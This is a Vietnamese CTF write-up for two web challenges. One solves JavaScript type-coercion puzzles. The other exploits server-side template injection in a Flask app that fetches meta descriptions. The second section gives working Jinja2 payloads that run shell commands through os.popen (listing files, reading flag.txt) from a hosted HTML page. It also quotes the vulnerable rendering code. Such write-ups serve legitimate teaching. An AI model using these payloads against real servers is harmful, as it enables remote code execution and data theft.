







# Final PTIT CTF 2025 - WEB

## Danh sách bài:

- [Web_2](#web_2---bounty-)
- [Web_3](#web_3)

---

## web_2 - bounty 💸



Bài này khai thác “tính khí thất thường” của JavaScript khi so sánh bằng lỏng (`==`), ép kiểu ngầm, `parseInt`, `NaN`, `-0`, và cách các object/array chuyển sang chuỗi.

Nhiệm vụ đặt ra: tìm đúng input cho từng stage dựa trên chuỗi biểu thức kỳ dị mà đề bài đưa ra. Đi hết hành trình, ta sẽ mở được cánh cửa cuối cùng để lấy flag.

---

### Kiến thức nền cần nhớ nhanh
---
- Ưu tiên toán tử: **Unary**: `!`, `+` (ép kiểu số) có độ ưu tiên cao nhất sau đó mới tới toán tử `+` (nhị phân, cộng hoặc ghép chuỗi) rồi mới tới `[...]` (indexing / truy cập phần tử chuỗi, mảng).

- Quy tắc toán tử `+` nhị phân: Nếu một vế (sau khi ép kiểu ToPrimitive) là **string**, thì `+` trở thành **nối chuỗi**. Nếu cả hai đều là số (hoặc ép được về số), thì `+` là phép **cộng số học**.

- ToPrimitive cho Array và Object
    -   `[].toString()` ⇒ `""` (chuỗi rỗng, vì mảng rỗng khi join không có phần tử nào).
    -   `({}).toString()` ⇒ `"[object Object]"` (theo `Object.prototype.toString`).

- Một số ví dụ ép kiểu số
    -   `+[]` ⇒ `0`
    -   `!0` ⇒ `true`
    -   `+true` ⇒ `1`

- Indexing trên chuỗi
    -   `"abc"[0]` ⇒ `"a"`
    -   Chỉ số bắt đầu từ `0`.

---

### Stage 0 / 4



**Biểu thức:**

``` js
(![]+[])[+[]] + ([][[]]+[])[+!+[]] + ({}+[])[+!+[]+!+[]] == input
```

### Giải mã

**Phần 1: `(![]+[])[+[]]`**

- `![]`: `[]` là `truthy` (giá trị khi ép sang kiểu `boolean` sẽ trở thành `true`) ⇒ `![] = false` 

- `(![]+[])`: `[] = ""` (chuỗi rỗng). Khi một vế là chuỗi, + là nối chuỗi: `false + "" = "false"`.

- `[+[]]`: `+[] ⇒ 0`. Lấy ký tự thứ `0` của **`"false"`** là **'f'**.

> ⇒ Chuỗi trên = `(false)[0]` nghĩa là lấy ký tự thứ `0` của `"false"` là **'f'**.

**Phần 2: `([][[]]+[])[+!+[]]`**
- `[][[]]`: `[]` là mảng rỗng, `[[]]` là mảng có 1 phần tử là `[]`. Khi dùng làm **key** truy cập thuộc tính (**obj[key]**), **key** bị ép sang chuỗi: `[[]].toString()`, phần tử duy nhất là `[]`, mà `[].toString() = ""` ⇒ toàn bộ thành `""`. Vậy `[][[]] ≡ [][""]`. Array không có thuộc tính khóa rỗng "" ⇒ `undefined`

- `[][[]]+[]`: `[] = ""` ⇒ `undefined + "" = "undefined"`

- `[+!+[]]`: `+[] ⇒ 0`, `!0 ⇒ true`, `+true ⇒ 1`

> ⇒ Chuỗi trên = `(undefined)[1]` nghĩa là lấy ký tự thứ `1` của `"undefined"` là **'n'**.

**Phần 3: `({}+[])[+!+[]+!+[]]`**
- `({}+[])`: Dấu ngoặc bắt buộc để `{}` được hiểu là object literal (không bị parse như block rỗng). `{}` khi ToPrimitive → `"[object Object]"`. `[] → ""` nên `({}+[]) ⇒ "[object Object]"`.

- `+!+[]+!+[]`: `+[] ⇒ 0 → !0 ⇒ true → +true ⇒ 1`. Biểu thức là `1 + (!+[])`, do `!+[] = !0 = true`. Cộng số với **boolean** ⇒ `true` ép số thành `1` ⇒ `1 + 1 = 2`

> ⇒ Ký tự thứ 2 (0-based) của `"[object Object]"`: là **'b'**.

👉 **Input:** `fnb`

---

### Stage 1 / 4



**Biểu thức:**

``` js
typeof a == 'number' && a !== NaN && (a - 1 < a) == false
```

với `a = parseInt(input)`

#### Giải mã

- `typeof a == 'number'`: `parseInt(...)` luôn trả về kiểu number trong JS: hoặc là một số hữu hạn, hoặc là `NaN`. Vì vậy vế này luôn đúng cho mọi kết quả của `parseInt`

- `a !== NaN` luôn `true`, kể cả khi `a` thực sự là `NaN` (Muốn kiểm tra `NaN` đúng cách phải dùng `Number.isNaN(a)`)

- `(a - 1 < a) == false`, với số hữu hạn bình thường, `a - 1 < a` luôn `true`, Với `±Infinity` biểu thức luôn đúng Nhưng `parseInt` không thể tạo ra `±Infinity`, với `NaN` thì `a - 1` là `NaN`, mọi so sánh với `NaN` (<, >, <=, >=) đều `false` ⇒ biểu thức đúng

> ⇒ Do đó, điều kiện toàn bộ chỉ thỏa khi `a` là `NaN`.

👉 **Input:** `abc` (hay bất kỳ chuỗi chữ nào).

---

### Stage 2 / 4



**Biểu thức:**

``` js
Object.is(0, a) == false && Math.abs(1 / a) > 1
```

với `a = parseInt(input)`

#### Giải mã

-   `Math.abs(1/a) > 1` ⇒ với số nguyên thì chỉ xảy ra khi `|a| < 1` ⇒ `a` phải là `0` hoặc `-0` (`NaN` loại vì `1/NaN` là `NaN`, so sánh cho ra `false`).
-   `Object.is(0, a) == false` ⇒ chỉ `-0` thỏa `(Object.is(0, -0)` là `false`.

> → Cần `a = -0`.

👉 **Input:** `-0`

---

### Stage 3 / 4



**Biểu thức:**

``` js
[] == input && ![[]] == input
```

#### Giải mã

-   `[] == ""` → true.
-   `![[]]` = `false`, nếu một vế là boolean, đổi boolean sang number `false ⇒ 0`. So sánh thành `0 == ""`, khi so sánh number với string, chuỗi được đổi sang number: `Number("") ⇒ 0`. So sánh `0 == 0 ⇒ true`

👉 **Input:** chuỗi rỗng `""` (để trống).

---

### Thành quả cuối cùng

Đi hết bốn cánh cửa, trang web trả về flag:


👉 **Flag:** `PTITCTF{Js_iS_The_best_BAD!!!}`

---

## web_3


### Mô tả Challenge

- Challenge cung cấp mã nguồn của một ứng dụng web (Flask).
- Mục tiêu là phân tích mã, phát hiện lỗ hổng Server-Side Template Injection (SSTI) và lấy flag.

### Phân tích mã nguồn

Trong file `Flask` `app.py` có đoạn xử lý phần `description` trong route `/fetch_url_info`:

```python
escaped_description = html.escape(description) # Escape HTML entities in description
escaped_description = Template(description).render()
```

#### 🔎 Nhận xét:
- Ban đầu `description` được escape bằng `html.escape()` → ngăn chặn XSS. Nhưng ngay sau đó, nó lại được đưa trực tiếp vào `Template(description).render()`. Đây là vấn đề an toàn nghiêm trọng: bất kỳ nội dung nào trích xuất từ website bên ngoài (`meta description`, `og:description`, `twitter:description`) sẽ được `Flask/Jinja2` biên dịch như một template.

- Nếu kiểm soát được nội dung `description` (bằng cách dựng 1 trang web giả hoặc chèn payload vào `meta tag`), ta có thể thực thi `Jinja2 template injection`.

### Xác định vector tấn công

Người dùng nhập URL vào form `/fetch_url_info`, server `requests.get(url)` và lấy `HTML response`. Nó sẽ tìm `meta tag description`, `og:description`, hoặc `twitter:description`.Mình có thể đưa vào meta như sau:
```html
<meta name="description" content="{{ 7*7 }}">
```

Khi server render:

- `html.escape` biến `{{ 7*7 }}` thành `&#123;&#123; 7*7 &#125;&#125;`, ngay sau đó `Template(description).render()` sẽ xử lý lại → `kết quả = 49`

✅ **Vậy là đã xác nhận có lỗ hổng SSTI.**

### Đọc object trong Jinja2
Trong Jinja2, có thể truy cập nhiều object Python:

- `self.__init__.__globals__`
- `cycler.__init__.__globals__`
- `lipsum.__globals__`

Những object này dẫn đến `__builtins__` hoặc `os` module.

### Thực thi lệnh hệ thống thông qua os.open
```jinja2
{{ cycler.__init__.__globals__['os'].popen(' ').read() }}
```
- `['os']`: lấy module os từ `__globals__` 
- `.popen(' ')`: gọi `os.popen()` với chuỗi ' ' làm lệnh `shell`
- `.read()`: đọc toàn bộ output từ stream trả về bởi `popen()`

### Tiến hành

Tạo một file HTML chứa `meta og:description` có biểu thức template đánh giá phép gọi lệnh (ở đây tôi dùng `os.popen('').read()` trong `meta`).

```html
<!doctype html>
<html>
<head> 
  <meta property="og:description" content="{{ cycler.__init__.__globals__['os'].popen('ls').read() }}"> 
  <title>x</title> 
</head>
<body>ok</body>
</html>
```

Tiếp theo tôi dùng Vercel để deloy và fetch URL này. Kết quả hiển thị trên ứng dụng là danh sách file trong thư mục ứng dụng



Tôi đã thấy file `flag.txt` và tiếp tục truy vấn để đọc file flag

```html
<!doctype html>
<html>
<head> 
  <meta property="og:description" content="{{ cycler.__init__.__globals__['os'].popen('cat flag.txt').read() }}"> 
  <title>x</title> 
</head>
<body>ok</body>
</html>
```

Kêt quả thu được:



👉 **Flag:** `PTITCTF{bai_n4y_x4m_v~i}`


